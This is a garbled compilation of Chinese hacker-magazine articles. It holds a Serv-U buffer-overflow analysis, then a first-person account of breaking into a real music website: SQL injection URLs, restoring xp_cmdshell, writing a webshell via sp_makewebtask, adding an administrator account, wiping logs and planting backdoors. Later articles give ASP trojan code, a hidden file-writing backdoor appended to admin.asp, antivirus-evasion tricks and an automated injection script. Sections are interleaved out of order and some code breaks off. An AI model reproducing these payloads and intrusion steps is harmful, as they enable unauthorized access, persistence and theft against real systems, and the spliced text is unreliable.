首先 Serv-U 调用 `sub_41434` 处的代码，这个代码的作用就是从资源文件中（在二进制代码中，就是 `.rsrc` 段中的字符串信息）载入字符串资源，具体的作用就相当于 SDK 中的 `LoadString` 函数，把字符串资源中提取出来。对应到提交的参数 `0x4b4h`（可以通过一些资源提取工具，例如 exescope 之类的软件将相应的字符串信息提取出来），提取出来的字符串就是 `"%s: No such file or directory."`，接下来 Serv-U 调用 `sprintf` 将回应信息格式化到 `edx` 所指向的字符串缓冲区中，这部分的代码等同于：

```c
sprintf(edx, "%s: No such file or directory.", filename);
```

这样，一个形式为伪 C 的代码就触发了缓冲区溢出的问题，`filename` 的长度没有经过检查，那么将直接拷贝到 `edx` 所指向的缓冲区。

根据下边代码：

```asm
text:00419505 B00    lea     edx, [ebp+buffer]
text:0041950B B00    push    edx            ; buffer
```

可以判断 `edx` 所指向的缓冲区是栈分配的局部变量缓冲区之一，如果提交的文件名是一个超过局部变量 `buffer` 缓冲区所能容纳长度的文件名，这样就可以触发一个栈内缓冲区溢出漏洞，此时堆栈内部分布的一些信息如下：

- buffer
- 其他变量
- SEH 地址
- 栈帧
- 返回地址

所以，只要 buffer 的长度足够长就可以覆盖 SEH 地址和返回地址。说到这种地步了，exploit 呼之欲出了，也不需要详细的过程了。

> 脚本小子：其实这里就是标准的堆栈溢出的典型事例。大家平时可以多关注一些常用的服务器软件，它们可能不是大家想象中那么复杂，也会有一些溢出漏洞。

### 写权限的要求

`site chmod` 这个命令是用来更改服务器上文件的权限属性的，形式就和 Unix 下的 `chmod` 命令一样：`chmod 755 filename`。这个命令首先对提交的 `site chmod xxx filename` 进行检查并对一些特殊字符做替换，例如回车、换行、3 个连续的 `0xff`（这个是出于什么原因我也不清楚）等等，然后尝试打开 Serv-U 服务器上的 `filename` 这个文件，并尝试修改这个文件的属性。在这个过程中如果有错误发生，就根据错误信息返回相应的消息。这些消息包括：

```text
501 Syntax error in parameters or arguments.
550 Permission denied.
550 %s: No such file or directory
553 %s: Cannot change attributes
253 Attributes changed okay.
```

在打开文件的过程中，首先检查 `site chmod` 执行的必要条件：对目录下的文件具有可写的权限，如果具有了，才会实际地打开这个文件，文件不存在就报告“550 %s: No such file or directory.”的错误，否则就是修改文件的属性。由于溢出发生在“550 %s: No such file or directory.”这个点上，所以这就是这个漏洞需要写权限的原因，其实并不是需要在远程服务器上写一个文件。

## 漏洞发现过程中的一些问题

### 错误模式

按照典型的漏洞模式来看，Serv-U 的这个漏洞属于 `sprintf(dst, "%s", src)` 这种典型的溢出模型，这种模式逃不出 Halvar Flake 的 bugscam 的法眼！bugscam 检查的针对库函数的溢出有以下这么几种比较典型的模式：

- 1. `strcpy(dst, src);`
- 2. `strcat(dst, src);`
- 3. `sprintf(dst, "%s", src);`

这里 Serv-U 的漏洞就属于第三种。

> **脚本小子：bugscam 大家可能不是很熟悉**

BugScam 是一组 IDA Pro 的脚本，可以分析扫描一个指定二进制文件一些库函数（比如 `strcpy` 等）是否存在问题，并且可以产生一个 HTML 格式的输出文件。

### 自动化发现途径的障碍

在检查第三种的情况下需要判断格式串，在 Unix/Linux 下，一般格式串都是静态字符串，直接就可以获得，而在 Windows 中引入了资源段的概念，字符串作为资源编译在资源段中，获取这些字符串需要通过 `LoadString` 来获得，对于 bugscam 来说，模拟 `LoadString` 来获得字符串信息还是比较困难的，这样针对 `sprintf` 的自动化检查在这里就停下来，越不过这个障碍了。

## 你也可以发现漏洞

这里简单说一下漏洞发现过程中使用的一些工具，反汇编平台是最为强大的 IDA Pro，这个也是通用的工具，这里特别提一下 Halvar Flake 的逆向工程工具 `obj_rec`，可以把未知的结构和类以很直观的形式显示出来，下边就是一段 `obj_rec` 处理过后，手动命名后的一些代码片断。

未经处理的代码：

```asm
text:004192B2 AF8    lea eax, [esi+8469h]
text:004192B8 AF8    push esi
text:004192E0 AFC    lea eax, [esi+8D78h]
text:004192E6 AFC    mov edi, eax
```

处理过后的代码：

```asm
text:004192B2 AF8    lea eax, [esi+cmdStruc.lpServerIPAddress]
text:004192B8 AF8    push esi
text:004192E0 AFC    lea eax, [esi+cmdStruc.StrUserName]
text:004192E6 AFC    mov edi, eax
```

其中，`cmdStruc` 就是 `obj_rec` 处理过后的结构，`lpServerIPAddress` 和 `StrUserName` 是对结构体中变量手动命名的结果，这样处理过的代码可读性还是很强的！最后对为这个漏洞做出工作的朋友们表示感谢，尤其是 lgx、eyas 和 bkbll，并感谢 SST 所有的成员。

### 相关资源

```text
bugscam: http://sf.net/project/bugscam
halvar flake's obj_rec: http://www.blackhat.com/html/bh-consulting/bh-consulting-tools.html
```

### 编后语

> 小编在看完了这篇文章后有两个很强烈的感觉：一是佩服作者敏锐的洞察力和高超的漏洞分析能力，二就是赶快为自己的 Serv-U 服务器打补丁吧！现在 Serv-U 已经出了 5.0 了，新增了许多 FTP 命令，功能更强大！大家赶快去升级吧！慢了自己就成了别人的肉鸡哦！——因为本期还有另一篇直接的漏洞利用的文章，大家小心哦！ :D

Wtf：这个文章小编今天来“客串”一下本版编辑，因为好友“臭要饭的！”给我此文的时候一再叮嘱内容的重要性和轰动性，所以这次委屈脚本小子了，呵呵。闲话少说，这绝对是一篇真实的安全测试文章，也是极具观赏性的。文中在某些问题上可能走了弯路，但是那是为了给大家讲解一个思路，所以关键的解决问题的思路才是最值得大家学习的。本文作者对脚本注入漏洞的深入了解，也有对入侵的新思维分析。如果你对脚本安全兴趣浓厚但难有机会真枪实战，能错过这篇文章吗？

如果说以往的脚本攻击都只停留在 Web 层次的话，这次的文章是深入到了系统层了，因为 SQL 最迷人的地方在于它强大的功能，而其中很多不为人知的地方又是最迷人的！本文很多技术绝对是第一次出现！来吧！神秘的面纱将慢慢揭开！

**难易程度：中级**

**前置知识：SQL 注入基本知识**

## 划时代的脚本攻击

### ——利用纯脚本技术获得系统权限

文／图 臭要饭的！

目前网上很流行 SQL INJECTION 漏洞，也就是我们通常所说的 SQL 注入漏洞，我们利用这类漏洞可以跨表、跨库查询数据库信息，以及通过论坛来上传文件从而得到主机 WebShell（这些都是一些很通常的手法，《黑防》原来也介绍得比较详细）。

前段时间我对一大型音乐收费网站进行安全测试，结果我利用纯脚本技术，拿到了系统管理员权限。所以，今天我就为大家介绍一下全部经过和我的具体思路分析。

## 踩点

踩点，是对一个服务器进行安全测试的首要工作。我们对服务器先进行端口扫描。我拿出了一朋友写的一款非常不错的扫描程序，速度相当快，可以同时开 2000 个线程！（wtf：GOOD！）半支烟功夫，端口 1－65535 就扫完了。

扫描的开放端口如下：

21, 80, 1433, 3389

再次扫描得到的结果相同，几乎能肯定是这些了。冲击波过后，网络上的服务器安全了许多，利用系统漏洞入侵也变得有难度了。先来分析了一下：我把目标集中在 21 和 1433 端口。现在只有看看运气，看是否能扫出个弱口令（wtf：呵呵，想得倒美！）——真是倒霉，我很久都没有扫到存在弱口令的机子了，今天也一样，什么都没扫出来。看来，我只有从网站脚本上寻找出路了。

## 对网站进行全方面的探索

开了 1433 端口，即 SQLSERVER 服务，一般网站都是 ASP+MSSQL 结构架设的，并且 ASP 脚本的注入漏洞比其他脚本漏洞好找，漏洞存在的机率也相对要大得多。一般情况下，我在提交的参数后加上单引号提交，如果参数没有过滤，IE 一般都会返回错误信息。

```c
memcpy(buf, fb->inptr, nbyte);
```

// 这里出现问题了。

使用 `memcpy` 进行缓冲区拷贝，拷贝的长度就是用户提交的 buffer 的大小，因为前面已经绕过了长度安全检查，所以这里会发生缓冲区溢出。

这个漏洞在 Windows 下可以利用异常处理地址来进行利用，*BSD 下则可以利用 `memcpy` 的反向拷贝机制来利用。关于漏洞利用的具体方法就不在这里讨论了，这里要说明的重点就是由于程序员忽略了整型数的符号问题而引起了安全漏洞。在新版本的 Apache 中使用了如下语句进行长度检查：

```c
len_to_read = (r->remaining > (unsigned int)bufsiz) ? bufsiz : r->remaining;
```

这样一来把 `bufsiz` 当作无符号的数，这样就不会

### 总结

> 整型溢出并不是一种很新的漏洞形式，但是它是非常危险的，部分原因是因为它在发生后不可能被发现。如果一个整型溢出发生了，应用程序往往并不知道它的计算是错误的，因此应用程序在假定它是正确的情况下继续运行下去。当然，正是由于其隐蔽性，整型溢出也是很难被发现的。通常的压力测试往往无法成功地引发整型溢出，对于这种漏洞的发掘，一般需要使用逆向工程对程序代码进行详细的审核。

我很快找到了一个没有经过任何过滤的参数。

提交：`http://www.something.com/script.asp?id=2'`

IE 返回：

> Microsoft OLE DB Provider for ODBC Drivers  
> 错误 '80040e14'  
> [Microsoft][ODBC SQL Server Driver][SQL Server]  
> 字符串 '**' 之前有一未闭合的引号。

提交：`http://www.something.com/script.asp?id=2 and 1=1`

IE 返回正常记录。

提交：`http://www.something.com/script.asp?id=2 and 1=2`

IE 没有返回记录。

好了，这样就确定存在注入漏洞了，下面我们来利用这个漏洞拿到服务器和数据库的一些相关信息。譬如：想看服务器打的补丁情况，我们提交

```text
http://www.something.com/script.asp?id=2 and 1=(select @@VERSION)
```

出错了，同时，IE 给我们返回错误信息如图 1 所示。


看来服务器打了 SP4 补丁，“据说”打了 SP4 后，也有对 80 的溢出程序和对 MSSQL SP3 的溢出程序。不过这些属于“绝对机密”，估计除了 wtf 那小子有，很少人能搞到，反正我是没有的，哪天敲诈他去！现在我们继续！

这台服务器从系统方面对于我们来讲，是比较安全的，所以我还是接着从脚本方面着手吧，再来看看它的数据库连接账号的权限，提交

```text
http://www.something.com/script.asp?id=2 and 1=(SELECT IS_SRVROLEMEMBER('sysadmin'))
```

返回正常，这证明当前连接的账号是服务器角色 sysadmin 权限。

> wtf：`IS_SRVROLEMEMBER('role' [, 'login'])` 函数用于判断当前的用户登录是否是指定的服务器角色的成员。其中 role 为被检查的服务器角色的名称，而 login 是可选的。如果未指定，那么使用当前用户的登录账号。如果 login 是 role 的成员，则返回 1；不是则返回 0；如果 role 或 login 无效，则返回 NULL。

我差点没把嘴里的一口茶喷到电脑屏幕上。当前连接账号的服务器角色居然是 sysadmin 权限！如图 2 所示。


哈哈！看来连接账号多半是采用 SA 账号连接的了。

提交：

```text
http://www.something.com/script.asp?id=2 and 'sa'=(SELECT SYSTEM_USER)
```

用来查看连接账号是不是用 SA 连接的，IE 再一次返回正常。这证明了连接账号真的是 SA，看来权限是至高无上的了。

> wtf：当使用应用程序角色时，执行 `SELECT USER` 将返回当前使用的应用程序角色的名称。如果要获得已登录用户的身份，则使用 Transact-SQL 语句：`SELECT SYSTEM_USER`。

到这里，可能很多人就想到了利用 `xp_cmdshell` 扩展存储过程来加系统账号，然后再使用终端连接服务器。这是非常不错的想法！我也是很多人中的一员！我们来试试看行不行吧！

## 利用 MSSQL 存储过程，得到 Web Shell

下面，让我们看看 `xp_cmdshell` 是否被管理员删除了！提交：

```text
http://www.something.com/script.asp?id=2 and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE xtype='X' AND name='xp_cmdshell')
```

IE 返回的信息如下：

```text
ADODB.Field 错误 '800a0bcd'

BOF 或 EOF 中有一个是“真”，或者当前的记录已被删除，所需的操作要求一个当前的记录。
```

看来，`xp_cmdshell` 已经被删除了。呵呵，我们来给它恢复一下吧！

```text
http://www.something.com/script.asp?id=2; EXEC master.dbo.sp_addextendedproc 'xp_cmdshell','xplog70.dll'
```

再试，看 `xp_cmdshell` 是不是恢复过来了？

```text
http://www.something.com/script.asp?id=2 and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE xtype='X' AND name='xp_cmdshell')
```

> wtf：小编在后来的尝试中，发现 `xp_cmdshell` 恢复过来了？哈哈，不知道是哪位兄弟留下来的战果？

同样没有返回内容。这证明，管理员把 `xplog70.dll` 这个动态链接库给改名了，要不给删除了，看来直接恢复是没有办法的了。对此，我只能说两个字：“我忍”！

这么好个漏洞，不好好利用我是甘心不下的，再说都到这地步了，正有劲呢。先拿它的 WebShell 再说，哼哼，拿到 WebShell 后，我自然有办法对付它了，哈哈哈……（星仔般的奸笑！）

下面看如何拿到 WebShell！

看过 N.E.V.E.R 和 CZY 的文章没有？拿 WebShell 的方法，两位都已经详细地介绍过了。我也把他们的方法写成了程序，方便我使用，不过很困难的是得不到 Web 绝对路径。那我们生成的木马保存在什么地方呢？

这可能是很多牛人一直在研究的问题。还好，我对 MSSQL 还是了解一点。我有办法得到它的 Web 绝对路径，跟我来吧。（wtf：这绝对是个非常非常大的闪光点！大家看清楚了！）

下面我们要利用到两个 MSSQL 存储过程。不过有必要先给大家介绍一下 `xp_regread` 扩展存储过程和 `sp_makewebtask` Web 助手存储过程。`xp_regread` 是用来读取注册表信息的，我们通过这个存储过程来得到保存在注册表中 Web 绝对路径。

`sp_makewebtask` 在我们这里是用来得到 WebShell 的，其主要功能就是导出数据库中表的记录为文件，文件名你可以自己指定。当然我们这里就指定为 ASP 脚本文档啦！试想，如果表中记录保存的是脚本代码，导出来的文件也就是脚本文件了。所以，我们添加的记录就是脚本代码。

这里我就不用 N.E.V.E.R 的方法了。他的方法是导出库文件，导出的文件都比较大，并且很多乱码看起来不方便，如果记录中存在 ASP 的标记符并且有错误的 ASP 代码那就不好办了，打开多半返回 500 的错误码，所以我们采用 CZY 的方法，就是 Web 作业来得到 Shell。

## 1. 怎么拿到 Web 绝对路径

呵呵？这个问题，花了我很长时间去研究。大家都知道 MS 的东西很多都放在注册表中的，Web 位置我们可以在注册表中得到，位置如下：

```text
HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\W3SVC\Parameters\Virtual Roots
```

利用扩展存储过程 `xp_regread` 我们可以取得它的值。

```text
EXEC master.dbo.xp_regread 'HKEY_LOCAL_MACHINE',
'SYSTEM\ControlSet001\Services\W3SVC\Parameters\Virtual Roots', '/'
```

这样就取出来了，但问题又来了，取是取出来了，我们怎么在 IE 中返回它的值呢？我的方法是：先创建一个临时表，表中加一字段，类型为 `char(255)`。呵呵，用它来保存 Web 绝对路径的值。表建好后，我们就用读取注册表的方法，把返回的值保存在一变量中。然后向新建的表中加入记录（即变量的值）。这样，路径就写入到了表中。提交：

```text
DECLARE @result varchar(255)
EXEC master.dbo.xp_regread 'HKEY_LOCAL_MACHINE',
'SYSTEM\ControlSet001\Services\W3SVC\Parameters\Virtual Roots', '/', @result output
insert into 临时表(临时字段名) values(@result)
```

然后，我们再提交：`1=(select count(*) from 临时表 where 临时字段名>1)`

这样正报错，就把刚才插进去的 Web 路径的值报出来了。我也试过直接用变量来报错，让 IE 返回变量的值，结果是失败的，所以就想到了建临时表把数据插进去的方法！最后，我们再删除刚建的临时表。WebShell 就得到了，工作就此告一段落。

## 2. 怎么拿到 Web Shell

CZY 的文章已经写得很详细了。所以，我这里就只简单地提一下。先创建一个表，建一字段，然后向这个字段中加入木马的内容。然后，把内容通过 `xp_makewebtask` 存储过程导出成 ASP 脚本保存在 Web 绝对路径中。再次删除建的临时表，一切 OVER。

如：

```text
EXECUTE sp_makewebtask @outputfile = 'WEB绝对路径下\导出的文件名.asp',
@query = 'SELECT 你的字段 FROM 你建的临时表'
```

呵呵，结果就出来了。当然我都写成了程序，所以就不用麻烦自己手工一行一行地加数据进去了（wtf 本期文章有详细介绍！大家一定不会失望！）。方法和思路都写了，现在我们就来行动吧。

还是先看看，它这两个扩展存储过程是不是已经被删除了。如果被删了，我也不想活了！呵呵，提交：

```text
http://www.something.com/script.asp?id=2 and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE name='xp_regread')
```

再提交：

```text
http://www.something.com/script.asp?id=2 and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE name='sp_makewebtask')
```

啦啦啦！今天是什么日子，我比过年还开心啦。全部返回正常！两个要用到的存储过程都没有删除。

> wtf 注：一般管理员也不会删除这两个。可能对它们的了解比较少，也就不会在意它们喽！“免税”就在这里面！嘿嘿。

好，拿到 Web 绝对路径后，继续建表：

```text
http://www.something.com/script.asp?id=2;
create table [dbo].[cyfd] ([gyfd] char(255))
```

这样我们就成功地建了一个名为 `cyfd` 的表，并且添加了类型是 `char`、长度为 255 的字段名 `gyfd`。然后向表中加数据：

```text
http://www.something.com/script.asp?id=2;
DECLARE @result varchar(255)
EXEC master.dbo.xp_regread 'HKEY_LOCAL_MACHINE',
'SYSTEM\ControlSet001\Services\W3SVC\Parameters\Virtual Roots', '/1', @result output
insert into cyfd (gyfd) values(@result)
```

从注册表中读出 Web 绝对路径，再把路径插入到刚建的表中，然后报出 WebShell 的绝对路径。

```text
http://www.something.com/script.asp?id=2 and
1=(select count(*) from cyfd where gyfd > 1)--
```

出错后，IE 返回错误，我们得到 Web 绝对路径“d:\Inetpub\wwwroot”！经过努力的成功特别香甜！喝口茶！如图 3 所示。


图 3

然后删除刚才建的表，提交：

```text
http://www.something.com/script.asp?id=2;
drop table cyfd;--
```

OK，有了路径下面就好办多了。打开我写的获取 WebShell 的程序，输入漏洞 URL：http://www.yfd.com/yfd.com?id=2

输入保存木马的绝对路径：d:\Inetpub\wwwroot。

木马我早就配置好了，代码精简了又精简，只有 30 行代码，这样才少向服务器提交数据，加快速度嘛！木马的主要功能，就是输入内容，把输入的内容保存为一个文件。呵呵，通过这样的木马，我们就可以实现上传一些功能强大的脚本木马了，如海洋木马。

一分钟不到，程序都已经运行完毕。输入相应的路径，WebShell 来了，用最快的速度生成了一个海洋木马。

木马，如图 4 和图 5 所示。


图 4


图 5

我生活在幸福之中！——wtf 常常说这句话，今天看来我也被感染了！下面我们还得来！

## 恢复 xp_cmdshell，向系统权限进军

下面的工作就是很简单、很轻松了。10 分钟不到，就给你一个管理员账号。都说了 `xp_cmdshell` 已经被删除了，并且无法恢复，这多半是管理员把 `xplog70.dll` 文件给删除了，要不就改名了。没事，我们上传一个 `xplog70.dll` 就搞定一切了。通过 WebShell，我很快就把 `xplog70.dll` 文件给它上传到 `e:\inetpub\wwwroot` 目录下了。来吧，我们来恢复，提交：

```text
http://www.something.com/script.asp?id=2;
EXEC master.dbo.sp_addextendedproc 'xp_cmdshell',
'e:\inetpub\wwwroot\xplog70.dll'--
```

恢复，支持绝对路径的恢复哦，如图 6 所示。

OK。我们用 IE 来看一下是不是已经恢复了。提交：

```text
http://www.something.com/script.asp?id=2 and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE xtype='X' AND name='xp_cmdshell')
```

嘿嘿，返回正常，已经恢复了，下面的还用我说吗？呵呵！加账号：

```text
http://www.something.com/script.asp?id=2;
exec master.dbo.xp_cmdshell 'net user chouyfd chouyfdj314yf /add'
```

提升自己为超级管理员：

```text
http://www.something.com/script.asp?id=2;
exec master.dbo.xp_cmdshell 'net localgroup administrators chouyfd /add'
```

完毕。打开你的终端连接程序，连接吧！哈哈，终于给我连上了。到此，我就成功地拿到了这台主机的系统管理员账号（图 7）。

下面的工作就是清除日志和留下超级后门，闪人！


## 事后处理工作

终端连接上后，以最快的速度，清除 IIS 日志和 MSSQL 日志。同时，把 `xp_cmdshell` 也删除掉，要被发现就不好办了。再把上传的那个 `xplog70.dll` 移动到 `system32` 目录下，改个我都不知道什么意思的名字叫：`msxlog32.dll`（打死他也查不出来，哈哈！），再将猪蛋儿提供的超级内核后门程序安装起，再把存在漏洞的脚本文件给打上补丁。同时，在他的那个脚本程序中，我修改了代码，提交特定的参数（POST 提示方式），显示我的 Web 后门程序。这样两个后门，很保险！怕什么呢？刚过年，真开心啊！

> **小记**

文章可能有很多地方大家不太明白，篇幅有限，如有必要，直接和我交流吧：dy-e@163.net，这次完全通过脚本技术拿到系统管理员账号。这也是我很久以来对 MSSQL 深入学习的结果。本文章主要在于展现入侵的思路，入侵方法是多种多样的，希望本文思路对大家有所帮助，祝大家猴年快乐、万事如意！

脚本小子：想必大家都用过海阳顶端 asp 木马吧？这个 asp 木马对于广大黑友而言可是人手必备的武器呀，但是，就像当年风靡大陆的木马冰河一样，都毫无例外被各大杀毒软件列为追杀对象。我下了各种 asp 木马，用国内的金山毒霸和国外的卡巴斯基等杀毒软件检查，都无一例外报警了。尤其是国外的卡巴斯基，将海阳顶端木马 XP 版识别为：Backdoor-ASP.Rootkit.10.a。那么对于黑友而言，如何躲过网管手中的杀毒软件的法眼呢？为此，脚本小子特约海阳顶端木马的作者 lcx 特撰本文，以飨读者！

## 突破常规限制运行 asp 木马

文／图 lcx

脚本入侵中往往会上传一个 asp 木马来进一步扩大权限，或者在肉鸡中留 asp 后门也是一个不错的选择，但是如何让 asp 木马更加隐蔽而强大？让它躲过网管查杀、逃过杀毒软件追杀？并且具备 system 权限？改变代码变量也许是一个解决问题的办法，但是我们不妨换个角度思考，何不尝试改变 asp 木马的运行方式？

指令 `<!--#include file="1.jpg"-->` 放在 `2.asp` 文件的文件头或文件尾，那么我们执行 `2.asp` 时，放在 `2.asp` 同目录下的 `1.jpg` 同样也会被调用，起到遍历 `c:` 的功能，即在 `c:` 下生成 `lcx.txt` 这一文件。

> 脚本小子：cool！这一招是偷梁换柱啊！怕怕……

## 任意后缀运行 asp 木马

首先，我们可以换个任意后缀来运行 asp 木马。换任意后缀来运行 asp 文件方法有两种。

## 第一种方法：

这种方法是 include 指令的使用。include 指令可以让我们直接调用位于其他文件的函数，而不管后缀名是什么。像我写了一个简单的 asp 木马，功能是遍历 `c:` 盘，源码如下：

```asp
<%Set oScript = Server.CreateObject("WSCRIPT.SHELL")
oScript.Run ("cmd.exe /c dir c:\ > c:\lcx.txt ")%>
```

我们可以将这段源码保存成 `1.jpg`，然后将这句

> 脚本小子：好一招“借尸还魂”的生动运用！

## 第二种方法：

第二种方法是利用 `Asp.dll` 解析。在 IIS 默认安装情况下，我们可以看到 `.asa`、`.cer`、`.cdx` 后缀也可以成功运行 asp 代码，因为这 3 种后缀的文件映射都是调用了系统的 `asp.dll`。

根据这一启示，我们可以做一个 `.lcx` 的后缀映射，用 `nt\system32` 下的 `asp.dll` 来解析，这样做完后写有 asp 源码的 `lcx` 后缀文件也会成功运行 asp 程序。其方法是依次打开电脑的“控制面板→管理工具→Internet 服务管理器→Web 站点→右键属性→主目录→配置→添加”，如图 1 所示。

管我们还可以将这样一段代码放在 ASP 文件里。

## 触发 ASP 木马

其次，我们可以让 ASP 木马来触发才运行。无论你的 ASP 木马写得多么好，基本总会调用到 WScript.Shell 和 Scripting.FileSystemObject 这两个对象。有经验的网管可以运行查找功能，让你的木马无处可逃。

> 脚本小子：这里我顺便给大家提供一个启明星工作室编写的查找 ASP 木马的工具，已收录到光盘，以方便大家使用。

我们能不能做到调用这两个对象的 ASP 木马不放在肉鸡上，需要时能够随时上传运行呢？runasp.asp 是一个用 ASP 实现 ASP 文件运行的脚本，虽然还有很多 bug，但是对我们调用执行 ASP 木马是足够用了。更为可怕的是我在 runasp.asp 里调用测试一些恶意代码时，居然躲过了瑞星的查杀。如图 2 所示。

> 脚本小子：由于 runasp.asp 代码太多，文章里不方便列出，已将其放在光盘里了，大家可以自己研究一下。

我们将 runasp.asp 放在肉鸡上是不是一个很好的 ASP 触发器后门呢？另外，对付粗心的网管，我们还可以将这样一段代码放在 ASP 文件里：

```asp
<%
on error resume next
id=request("id")
if request("id")=1 then
testfile=Request.form("name")
msg=Request.form("message")
set fs=server.CreateObject("scripting.filesystemobject")
set thisfile=fs.OpenTextFile(testfile,8,True,0)
thisfile.WriteLine("<"&msg&">")
thisfile.close
set fs = nothing
%>
<form method="POST" ACTION="你要插入的asp文件名?id=1">
<input type="text" size="20" name="Name" value=<%=server.mappath("xp.asp")%>>
<textarea name="Message" class=input>
</textarea>
<input type="submit" name="Send" value="生成" class=input>
</form>
<% end if %>
```

像我放在动网文章的 admin.asp 的文件尾端，当网管运行 http://动网文章url/admin.asp 时并没有引起丝毫变化，而当我们运行 http://动网文章url/admin.asp?id=1 时，就可以根据我们的需要生成任意 ASP 木马文件了。

> 脚本小子：此招还可谓不毒也！

## 让 ASP 木马具备系统权限的方法

最后，我们要让 ASP 木马具备系统权限。我们的木马现在隐匿得很深，躲过了细心网管和杀毒软件，不具备系统权限我们心有不甘。让 ASP 木马具备系统权限的方法有 3 种。

### 第一种方法

是在 IIS 管理器中的“主目录”选项里将应用程序保护选择为：低（IIS 进程），如图 3 所示。

### 第二种方法

将“IWAM_machine”这一用户加入 administrators 组即可。这两种方法我想大家也许都耳熟能详了，但第 3 种也许就不为人所知了。

### 第三种方法

netbox 是一款由北京综艺达软件技术有限公司自主研制的编译及开发工具，除了 Apache 和微软的 IIS 以外，目前是世界上第三个可以运行 ASP 的应用服务器，在 Windows 98/NT/2000/Me/XP 下都可以直接运行，而且是一个大小仅为 440KB 的绿色文件。我已将 netbox 配置好了。

> 脚本小子：作者配置好的 netbox 已经收录到光盘的 netbox 文件夹。

大家使用的时候，只需将 netbox 文件夹先放在某个盘符下，再在 cmd 下运行：

```text
x:\netbox\netbox.exe -install
```

即可安装成功 netbox，以后就可以运行 http://ip:88/x.asp 了。需要指出的是，我在 netbox 的配置文件 main.box 里写了这样两行代码：

```text
If httpd.Create("80") = 0 Then
Set host = httpd.AddHost("80", "\\wwwroot")
```

意思是 Web 的端口为 88，ASP 文件放在 netbox 目录下的 wwwroot 文件夹。这个端口和文件夹，你都可以根据自己的需要用记事本打开 main.box 来修改你所想要的。我们使用这一软件最大的一个好处是我们的 ASP 木马在 netbox 环境下具备了系统权限，也许用它在肉鸡上做主页留后门也是一个不错的选择哟。

另外，因为我整篇文章写的是如何突破常规限制来运行 ASP 木马，所以还有一点我要提及。在《黑客防线》2003 年第 7 期，xhacker 有篇文章《巧妙设置 cmd 权限加强主机安全配置》提到过防止网上流行的 cmd.asp 木马（脚本小子：此木马已收录到光盘）的方法是可以用：

```text
cacls %systemroot%/system32/cmd.exe /E /D IUSR_machine
cacls %systemroot%/system32/dllcache/cmd.exe /E /D IUSR_machine
```

这样两条命令来限制 cmd.exe 的权限，于是 cmd.asp 木马就失去作用了。

针对这种限制我们也有办法突破，我们可以将本机的 cmd.exe 改名传到肉鸡上，假设我们将 cmd.exe 改名为 lcx.exe，传在肉鸡的 d:\lcx 目录下，于是我们打开 cmd.asp，找到：

```text
Call oScript.Run("cmd.exe /c " & szCMD & " > " & szTempFile, 0, True)
```

这一行源码，改为：

```text
Call oScript.Run("d:\lcx\lcx.exe /c " & szCMD & " > " & szTempFile, 0, True)
```

即可，我们又可以成功运行 cmd.asp 了。

总之，如何能更好地运行 ASP 木马，发挥出它的强大功能，还是需要我们多动脑多动手，只有这样我们才会有新的发现。

> 编后：用兵之法，无恃其不来，恃吾有以待也；无恃其不攻，恃吾有所不可攻也。看来各位黑友在一条看不见的战线上作战时，必须权衡利害，善于变通，因势利导，才能做到有备无患，有恃无恐！味之，而后动，才是黑友的至高境界！

脚本小子：很多的注入攻击都是建立在 MSSQL 服务器的基础上的，通过烦琐的猜测过程来完成一些类似的入侵操作。如今的一个 SQL 注入在步骤上是显得越来越烦琐。如果通过编写程序来简化操作呢？太复杂的大家可能接受不了，今天我们来看一个 VbScript 脚本的 SQL 注入猜测程序。

**难度等级**：中级

**前置知识**：SQL 注入技巧，Access 数据库的使用技巧

## 打造 SQL 注入脚本

文／图 晴阳（Fineshine）

最近，SQL-Injection 漏洞我们真是屡见不鲜，在众多看似风平浪静的论坛上都存在着不被周知的类似隐患，包括以前的动网 loginout.asp、toplist.asp 页面等存在的漏洞也被相继挖了出来。希望所发生的这一切能让众多 ASP 程序员们意识到程序严密的重要性！

开始我们的正题吧，通过脚本对因过滤字符不严的 ASP 页面来构造 URL，能猜测常用表名、字段名和用户、密码。经常玩注入的朋友都知道，这里我写了一个自动注入脚本 pSQL.VBE，可以免去构造 URL 时不少“填字”的辛劳，能自动猜测常用表名、字段名和用户、密码，经修改也能猜测其他不常见的表名、字段名和用户名、密码，不过速度不会很快，希望大家能够喜欢！

下面介绍脚本中函数的功能和原理及其使用方法。

## 漏洞检测

检查 URL="http://ip/list.asp?id=1" 是否可以构造这样的 URL 来注入：

```text
<1>http://ip/list.asp?id=1
<2>http://ip/list.asp?id=1 and 1=1
<3>http://ip/list.asp?id=1 and 1=0
```

注意到上面 3 个 URL 的不同了吗？对了，就是 and 后面的部分。这里的 list.asp 接收 GET 或者 POST 过来的字段 id=1 后就执行了 SQL 语句，一般都是这样：select top 1 * from [表名] where id=1。如果我们构造 id=1 and 1=1 则会执行 select top 1 * from [表名] where id=1 and 1=1，如果页面正常返回，则正如我们想象的那样，字符过滤不严！若 <1>、<2> 两种情况与 <3> 返回的正文不一致，则表明一定存在 SQL 注入漏洞，恭喜恭喜！

- 1. 判断是否存在漏洞。
- 2. 取得正常返回时的页面内容。
- 3. 猜测表名，从预设的表名数组中取得表名，猜测数据库中是否存在该表。
- 4. 如果存在一个表，同样从预设的字段名数组中取得字段名，猜测数据库中是否存在该字段。
- 5. 如果存在用户和密码字段，手动填入字段名来猜测用户名和密码。

首先，POST 一个 URL 到 list.asp 的函数如下（很好的东西）：

```vb
Function pPost(pUrl)
On Error Resume Next
Set pRes = CreateObject("Microsoft.XMLHTTP")
pRes.open "POST", pUrl, false
pRes.Send

获取页面返回信息，返回的正文中存在 BodyText 的话就表示猜测成功
pRet=bytes2BSTR(pRes.responseBody)
If instr(pRet, BodyText) > 0 Then
    pPost="True"
Else
    pPost="False"
End If
Set pRes = Nothing
End Function
```

```vb
BodyText=BodyText1
' 存在注入漏洞！
Else
    pCheckSQL="False"
' 无漏洞，退出！
End If
End Function
```

给大家介绍一下这个 pPost(pUrl) 函数。函数 pPost(pUrl) 利用 XMLHTTP（要了解 XMLHTTP，就请去翻一下 XMLDOM 相关资料，XMLHTTP 是其中的一种协议），从页面 pUrl 获取数据，函数中的 pUrl 在调用时传递一个类似 http://ip/list.asp?id=1 and ****** 的 URL 地址。pUrl、BodyText 为正常返回页面中内容，如果提交 pUrl 后返回的页面中存在 BodyText，则表示正常返回；如果不存在，则表示返回错误了，也就是说构造的 SQL 条件不为真。BodyText 内容由如下函数获得。
